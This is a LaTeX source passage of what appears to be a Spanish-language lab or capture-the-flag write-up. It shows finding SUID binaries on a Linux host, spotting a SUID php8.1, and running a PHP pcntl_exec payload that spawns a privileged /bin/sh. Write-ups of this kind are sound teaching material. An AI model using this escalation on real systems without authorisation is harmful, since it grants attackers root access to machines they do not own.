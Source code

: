 \documentclass[12pt,a4paper]{article}
\newcommand{\cmd}[1]{%
  \colorbox{inlinebg}{\texttt{\small\color{wlcyan}#1}}%
}
\begin{document}
Dentro del servidor, buscamos binarios con el bit \textbf{SUID} activado:

\begin{lstlisting}[language=bash]
find / -perm -4000 2>/dev/null
\end{lstlisting}

\begin{notebox}
  \textbf{Desglose del comando:}
  \begin{itemize}
    \item \cmd{/} — Punto inicial de búsqueda: raíz del sistema.
    \item \cmd{-perm -4000} — Filtra archivos con el bit SUID (\texttt{4000}) activo.
    \item \cmd{2>/dev/null} — Redirige los errores a \texttt{/dev/null}, ocultando mensajes de permisos denegados.
  \end{itemize}
\end{notebox}

\begin{lstlisting}[style=output]
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/php8.1
/usr/bin/sudo
\end{lstlisting}

El binario \textbf{\texttt{/usr/bin/php8.1}} destaca inmediatamente. No es habitual que un intérprete de scripting tenga el bit SUID activado, ya que esto permite ejecutar código arbitrario con los privilegios del propietario del binario (\texttt{root}).

\subsection{Explotación del SUID en php8.1}

Utilizamos \href{https://github.com/r1vs3c/searchbins}{\textbf{searchbins}} para obtener el payload de explotación de SUID para PHP:

\begin{lstlisting}[language=bash]
searchbins -b php -f suid
\end{lstlisting}

\begin{lstlisting}[style=output]
./php -r "pcntl_exec('/bin/sh', ['-p']);"
\end{lstlisting}

Ejecutamos el payload directamente sobre el binario con SUID:

\begin{lstlisting}[language=bash]
/usr/bin/php8.1 -r "pcntl_exec('/bin/sh', ['-p']);"
\end{lstlisting}
\end{document}
